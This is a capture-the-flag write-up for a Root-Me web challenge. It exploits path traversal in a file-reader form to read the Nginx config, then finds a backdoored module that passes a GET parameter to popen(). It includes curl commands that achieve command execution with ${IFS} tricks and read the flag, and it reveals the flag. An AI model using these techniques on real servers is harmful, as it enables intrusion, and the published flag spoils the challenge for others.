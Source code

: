 Description:

![Screenshot](images/trainee-desc.png)

The trainee made a weird commit that’s flooding the server with requests—and eventually blocking connections. We’re hinted that something strange is lurking in their Nginx setup.



As soon as we connect we have a file reader form.
I stared with a whatweb
![Screenshot](images/trainee-whatweb.png)

With this we know the backend runs a Nginx 1.24.0.
I tried to research for a file like a file.txt, example.txt localhost and /etc/nginx because of what could be anginx misconfiguration.

I tried then a normal path traversal because was the most coherent and no brainer exploit in this case.

![Screenshot](images/trainee-lfi1.png)


And luckily I saw right.
![Screenshot](images/trainee-lfi1-res.png)


Digging through /etc/nginx/nginx.conf I eventually ran into:
![Screenshot](images/trainee-pivot!.png)

As we can see we there is a endpoint introduced by the trainee
```url
/Th1s_3ndp0int_1s_S3cr3t
```

Visiting that endpoint carved out from the trainee’s module gave me the source path:
```url
/usr/local/src/root-me-backdoor/ngx_http_root_me_backdoor_module.c
````

And when I visited the endpoint I found a file with 2 imporant lines:
```C
ngx_str_t param_name = ngx_string("r00t-m3.backd0or");
```
and
```C
fp = popen(command, "r");
```
If you send a GET parameter named r00t-m3.backd0or, its value is fed straight into popen().

First RCE test with `id`
```json
 curl -G 'http://node2.challenges.ctf20k.root-me.org:31669/Th1s_3ndp0int_1s_S3cr3t' \
     --data-urlencode 'r00t-m3.backd0or=id'

uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
```

After that, i tried to explore a lil bit like:

```url
r00t-m3.backd0or=echo${IFS}$(ls)'
r00t-m3.backd0or=echo${IFS}$(ls${IFS}../)'
```

And i stumbled upon this file
```bash
/flag-9fb215456edeadc855c755846be83cc310a5d262aa5d9360dd27db9cd0141a9d
```

And with a Curl
```bash
curl 'http://node3.challenges.ctf20k.root-me.org:34394/Th1s_3ndp0int_1s_S3cr3t?\
r00t-m3.backd0or=cat${IFS}</flag-9fb215456edeadc855c755846be83cc310a5d262aa5d9360dd27db9cd0141a9d'
```

And here is the flag
```url
RM{My_Tr4inee_B4ckd00r_My_Ng1nx}
```

